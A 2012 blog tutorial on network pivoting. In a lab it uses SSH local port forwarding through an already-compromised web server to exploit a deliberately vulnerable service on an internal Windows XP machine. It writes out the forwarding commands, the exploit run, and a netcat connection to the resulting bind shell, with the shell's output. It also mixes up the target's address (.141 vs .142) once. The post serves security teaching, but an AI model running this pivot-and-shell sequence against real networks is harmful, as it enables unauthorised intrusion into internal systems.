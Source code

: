 ```yaml
---
layout: post
title: "Introduction to pivoting, Part 1: SSH"
date: 2012-10-06 18:10:26 -0400
comments: true
categories: howto hacking
redirect_from: /2012/10/introduction-to-pivoting-part-1-ssh.html
---
```


Pivoting is a technique that allows attackers to use a compromised system to attack other machines in the same network, or more devastatingly, machines in another network that the compromised machine has access to. There are several techniques that can be used to pivot deeper into the network, and I'll be describing some of them in the next few articles. I've found that this topic can be a bit confusing to beginners, and I hope that these articles will help clear things up. In this article, we'll look at pivoting with SSH.

<!--more-->

### The scenario

There are two networks, 192.168.81.0/24 and 192.168.63.0/24. Our attacking machine, and a web server that has access to the 192.168.63.0/24 network are located in the 192.168.81.0/24 network. Our target, a Windows XP SP2 machine, is located in the 192.168.63.0/24. Our attacking machine does not have direct access to it, but the web server does.

![](/images/2012-10-06/01.jpg)

We've already compromised the web server and obtained SSH access to it as the user webmaster. Our goal is to use the web server as our pivot and obtain a remote shell on the Windows XP machine.

### The exploit

The Windows XP machine runs a vulnerable service called Server-Strcpy on port 10000. Server-Strcpy is part of the [SecurityTube Exploit Research Megaprimer](http://www.securitytube.net/video/1399) series, and can be downloaded at [http://code.securitytube.net/Server-Strcpy.exe](http://code.securitytube.net/Server-Strcpy.exe). I've written a quick exploit for Server-Strcpy.exe that binds a shell on port 4444, and can be downloaded [here](https://gist.github.com/superkojiman/fcb256c4ca40da00ad9676efd07a161c).

### The attack

Since we have SSH access to the web server, we can use SSH port forwarding to use it as our pivot. We run the following command on our attacking machine: 

```
ssh -L 127.0.0.1:10000:192.168.63.142:10000 webmaster@192.168.81.181
```

This tells SSH that we want to forward connections to port 10000 on our machine to port 10000 on 192.168.63.141 (Windows XP) through 192.168.81.181 (web server).

Once we've authenticated and logged in to 192.168.81.181, we can verify that port 10000 is running on our machine: 

```
# netstat -antp | grep 10000
tcp        0      0 127.0.0.1:10000         0.0.0.0:*               LISTEN      8230/ssh
```

We're ready to run our exploit. Our exploit takes two arguments, the target's IP address and the port to connect to. Since we are pivoting our attack through the web server, we specify port 10000 on our own machine: 

```
# ./serverstrcpy.py 127.0.0.1 10000
[+] sending payload of length 1479
[+] done, check port 4444 on target
```

The exploit claims to be successful, and we can verify it by using netcat to connect to port 4444 on the target. Keep in mind that we do not have direct access to the target, so we have to use SSH's local port forwarding again. This time, we forward port 4444 on our machine to port 4444 on the target: 

```
ssh -L 127.0.0.1:4444:192.168.63.142:4444 webmaster@192.168.81.181
```

Now when we connect to port 4444 on our machine with netcat, we get a shell on the Windows XP machine: 

```
# nc -v 127.0.0.1 4444
localhost [127.0.0.1] 4444 (?) open
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
 
C:\WINDOWS\system32>ipconfig
ipconfig
 
Windows IP Configuration
 
 
Ethernet adapter Local Area Connection:
 
        Connection-specific DNS Suffix  . : localdomain
        IP Address. . . . . . . . . . . . : 192.168.63.142
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.63.2
 
C:\WINDOWS\system32>
```

We've successfully pivoted our attack through the web server and obtained a remote shell on the Windows XP machine on the internal network. That concludes the first part of this series of pivoting articles. In part 2, we'll look at using Proxychains to pivot our exploit and hack into the Windows XP machine. 

